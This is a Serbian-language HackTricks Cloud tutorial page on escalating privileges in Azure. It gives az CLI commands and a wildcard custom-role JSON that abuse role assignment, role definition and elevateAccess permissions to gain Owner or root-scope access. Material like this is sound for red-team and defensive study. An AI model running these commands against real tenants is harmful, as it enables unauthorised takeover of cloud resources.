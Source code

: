 # Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Azure IAM

Za više informacija pogledajte:

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Ova dozvola omogućava dodeljivanje uloga principima preko specifičnog opsega, omogućavajući napadaču da eskalira privilegije dodeljujući sebi privilegovaniju ulogu:

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Ova dozvola omogućava modifikaciju dozvola koje dodeljuje uloga, omogućavajući napadaču da eskalira privilegije dodeljivanjem više dozvola ulozi koju je dodelio.

Kreirajte datoteku `role.json` sa sledećim **sadržajem**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Zatim ažurirajte dozvole uloge sa prethodnom definicijom pozivajući:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Ova dozvola omogućava podizanje privilegija i dodeljivanje dozvola bilo kojem principalu za Azure resurse. Namenjena je Entra ID Global Administrátorima kako bi mogli da upravljaju dozvolama nad Azure resursima.

{% hint style="success" %}
Mislim da korisnik treba da bude Global Administrator u Entra ID da bi poziv za podizanje privilegija radio.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
